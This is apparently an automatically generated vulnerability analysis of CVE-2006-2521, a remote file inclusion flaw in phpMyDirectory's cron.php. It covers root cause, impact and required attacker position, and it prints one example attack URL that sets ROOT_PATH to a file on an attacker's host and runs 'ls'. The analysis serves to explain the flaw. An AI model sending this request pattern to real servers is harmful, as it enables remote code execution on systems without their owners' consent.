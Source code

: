 Based on the provided information, here's an analysis of CVE-2006-2521:

**Root Cause of Vulnerability:**

*   The vulnerability stems from a failure to properly sanitize user-supplied input, specifically the `ROOT_PATH` parameter within the `cron.php` script of phpMyDirectory.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is a Remote File Inclusion. The application uses the `ROOT_PATH` parameter to include files, and this parameter is not validated. This allows an attacker to specify a remote file using a URL.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious file from a remote server, an attacker can execute arbitrary code on the target server. This could lead to complete compromise of the server, data theft, or other malicious activities.

**Attack Vectors:**

*   **HTTP GET Request:** The vulnerability is exploited via a specially crafted HTTP GET request to the `cron.php` script. The `ROOT_PATH` parameter within the request is set to a URL controlled by the attacker.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs network access to the vulnerable server.
*   **Malicious File Hosting:** The attacker must host a malicious file on a server they control.
*   **Understanding of the Target Application:** The attacker must understand the URL structure and parameters of phpMyDirectory, specifically the `cron.php` script and the `ROOT_PATH` parameter.

**Technical Details:**

*   The vulnerable URL pattern is `http://[target]/[path]/cron.php?ROOT_PATH=http://[attacker]/cmd.txt?&cmd=ls`.
*   The `ROOT_PATH` parameter is used to include an external file from a URL specified by the attacker.
*   The `&cmd=ls` part of the URL appears to be for command execution after the remote file inclusion, but it's unclear if this is an intended feature or a side effect of the RFI.

**Additional Notes:**

*   The Exploit-DB entry for CVE-2006-2521 gives an example of how to exploit this vulnerability, using a remote file to execute the "ls" command on the target. This demonstrates a clear path to remote code execution.
*   The provided Secunia content does not directly describe this CVE but rather introduces Secunia Research, a vulnerability intelligence resource.
*   The Vupen content is a placeholder page.

In summary, CVE-2006-2521 is a Remote File Inclusion vulnerability in phpMyDirectory that allows for arbitrary code execution by injecting a URL in the `ROOT_PATH` parameter of `cron.php`.